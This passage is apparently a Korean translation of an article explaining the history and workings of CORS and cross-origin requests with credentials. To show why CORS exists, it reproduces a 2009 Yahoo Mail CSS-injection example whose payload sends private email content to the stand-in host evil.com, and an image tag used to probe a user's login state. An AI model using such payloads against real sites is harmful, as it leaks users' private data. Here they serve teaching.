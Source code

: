 # CORS에서 이기는 방법

> 원문 : [https://jakearchibald.com/2021/cors/](https://jakearchibald.com/2021/cors/)

CORS(Cross-Origin Resource Sharing(교차 출처 리소스 공유))는 브라우저가 자원을 가져오는 방법에 대한 부분이기 때문에 어렵다. 이는 30여년 전 최초의 웹 브라우저에서 시작된 일련의 행위다. 그 이후로 기능을 추가하고, 기본 동작을 개선하고, 웹을 너무 많이 바꾸지 않는 선에서 과거의 실수를 덮어 나갔다.

어쨌든, 필자가 알고 있는 CORS에 대해서 모든 것을 적어두고 확인해볼 수 있도록 새로운 앱을 만들었다.

[The CORS playground](https://jakearchibald.com/2021/cors/playground/)

위 앱을 바로 실행시켜볼 수 있지만 이 글 곳곳에 링크를 걸어 특정 예시를 증명할 수 있도록 함께 보여줄 것이다. 

필자가 약간 앞서 나갔지만, '방법'에 설명하기 전에 CORS가 어떻게 생겨났고 여러 종류의 자원을 어떻게 적절히 가져오는지 살펴보면서 왜 CORS가 그런 것인지 설명하려고 한다. 행운을 빌어주길 바란다.

## CORS없이 다른 도메인에 접근하기

> SRC="url"이라는 필수 인수를 가진 새로운 HTML태그인 IMG를 제안한다.
[- Marc Andreessen in 1993](http://1997.webhistory.org/www.lists/www-talk.1993q1/0182.html)

브라우저는 거의 30년 동안 다른 사이트의 이미지를 포함할 수 있었다. 다른 사이트의 허락을 받을 필요 없이 그냥 할 수 있었다. 다른 사이트의 이미지뿐만 아니라 다른 자원을 가져오는 것도 가능했다.

```html
<script src="…"></script>
<link rel="stylesheet" href="…" />
<iframe src="…"></iframe>
<video src="…"></video>
<audio src="…"></audio>
```

다음과 같은 API들은 다른 웹 사이트에 요청을 하고 다른 웹 사이트의 동의 없이 각각의 방식으로 응답을 처리할 수 있다.

1994년에 이런 방식은 HTTP 쿠키의 등장으로 복잡해지기 시작했다. HTTP 쿠키는 TLS 클라이언트 인증서(서버 인증서와 혼동되지 말자)를 포함하고 HTTP 인증을 사용할 때 인증 요청 헤더에 자동으로 들어가는 상태를 포함하는 [인증 정보](https://fetch.spec.whatwg.org/#credentials) 집합의 일부가 되었다.

서버는 여러 요청을 보내더라도 그 인증 정보를 사용해서 특정 사용자의 상태 정보를 보관한다. 이런 동작은 트위터가 당신의 피드를 당신에게 보여주고 은행에서 당신 계좌를 보여주는 방식이다.

위의 방법 중 하나를 사용해서 다른 사이트의 콘텐츠를 요청하면 다른 사이트에 인증 정보가 함께 전송이 된다. 그리고 이 방법은 수년간 많은 보안 문제를 만들어 냈다.

```html
<img src="https://your-bank/your-profile/you.jpg" />
```

위 이미지가 로드가 되면 필자는 `load` 이벤트가 발생한다. 로드되지 않는다면 `error` 이벤트가 발생한다. 로그인 여부에 따라 이미지가 달라진다면 상대방의 정보를 얻을 수 있다. 또한 이미지의 높이와 너비를 읽을 수 있는데 사용자마다 차이가 있다면 더 많은 정보를 얻을 수 있다.

이런 방식은 많은 기능을 가진 CSS 같은 포맷을 이용해서 파싱 에러가 나지 않고도 상황을 더 악화시킬 수 있다. 2009년 야후 메일은 간단한 악용으로 취약하다는 점이 밝혀졌다. 공격자는 `');}`를 포함한 제목을 유저에게 보내고 나면 이후에 `{}html{background:url('//evil.com/?:`가 포함된 제목의 메일을 보낸다.

```html
…
<li class="email-subject">Hey {}html{background:url('//evil.com/?</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">Yo ');}</li>
…
```
